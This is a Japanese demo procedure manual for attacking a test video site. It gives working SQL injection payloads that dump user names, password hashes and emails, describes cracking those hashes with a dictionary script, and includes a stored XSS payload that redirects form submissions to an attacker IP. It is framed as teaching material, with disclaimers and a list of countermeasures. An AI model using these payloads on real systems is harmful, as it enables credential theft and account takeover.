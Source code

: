 # Webサーバー攻撃デモ手順書

## 概要
本手順書は、SQLインジェクションとXSS攻撃のデモンストレーション用です。
**注意: この手順書は教育目的のみに使用し、実際のシステムへの不正アクセスには使用しないでください。**

## 1. SQLインジェクション攻撃デモ

### 1.1 データベース名の取得
動画検索フィールドまたはコメント投稿欄に以下のペイロードを入力：

```sql
' AND 1=2 UNION SELECT 1, 2, DATABASE(), 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' --'
```

**期待される結果**: データベース名（KouTube）が表示される

### 1.2 テーブル名の取得
次に以下のペイロードを使用してテーブル名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, table_name, 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' FROM information_schema.tables WHERE table_schema = 'KouTube' -- '
```

**期待される結果**: データベース内のテーブル名一覧が表示される

### 1.3 usersテーブルのカラム構造取得
usersテーブルのカラム名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, GROUP_CONCAT(column_name), 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' FROM information_schema.columns WHERE table_schema = 'KouTube' AND table_name = 'users' --'
```

**期待される結果**: usersテーブルのカラム名（id, username, password, email等）が表示される

### 1.4 機密情報の取得
ユーザー情報（ユーザー名、パスワード、メールアドレス）を取得：

```sql
' AND 1=2 UNION SELECT id, id, CONCAT_WS('\n', username, password, email), '', '', 0, NOW() FROM users ORDER BY id ASC --'
```

**期待される結果**: 全ユーザーの機密情報が表示される

### 1.5 辞書攻撃によるパスワード解読
1.4で取得したハッシュ化されたパスワードに対して辞書攻撃を実行：

1. **攻撃準備**:
   - 辞書ファイル（a.txt）を用意
   - attacks_jisyo.pyスクリプトを使用

2. **攻撃実行**:
   ```bash
   python3 attacks_jisyo.py
   ```

3. **スクリプトの動作**:
   - 取得したsalt値（例：`$6$O/zgIwlwUdB90Lqq`）を使用
   - 辞書ファイルから候補パスワードを順次試行
   - ハッシュ値が一致したパスワードを特定

**期待される結果**: 平文パスワードが解読され、実際のユーザーアカウントへの不正アクセスが可能になる

## 2. XSS攻撃デモ

### 2.1 攻撃の準備
1. 攻撃者用のWebページ（you.html）を用意
2. 攻撃者のIPアドレスを確認（例：192.168.25.128）

### 2.2 XSSペイロードの投稿
動画のコメント欄に以下のJavaScriptコードを投稿：

```javascript
<script>document.onkeypress = function(e) {var f=document.forms;var i=f.length-1;do{f[i].action="http://192.168.25.128/project/projitu_1/static/you.html";f[i].onsubmit=null;}while(--i);}</script>
```

### 2.3 攻撃の実行
1. 第三者ユーザーが該当の動画ページにアクセス
2. 第三者ユーザーがコメントを投稿しようとする
3. キーを押すと、フォームのaction属性が攻撃者のサイトに変更される
4. コメント投稿時に攻撃者のサイト（you.html）にリダイレクトされる

## 3. デモ実行時の注意事項

### セキュリティ対策の確認
- 入力値のサニタイゼーション
- SQLクエリのプリペアードステートメント使用
- CSRFトークンの実装
- Content Security Policy (CSP)の設定

### デモ環境の要件
- ローカル環境またはテスト専用環境での実行
- 攻撃対象システムの所有者の許可
- ネットワーク分離された環境での実施

---
**免責事項**: この手順書は教育目的のみに作成されています。実際のシステムに対する不正アクセスや攻撃行為は法的に禁止されており、発見された場合は法的措置の対象となる可能性があります。
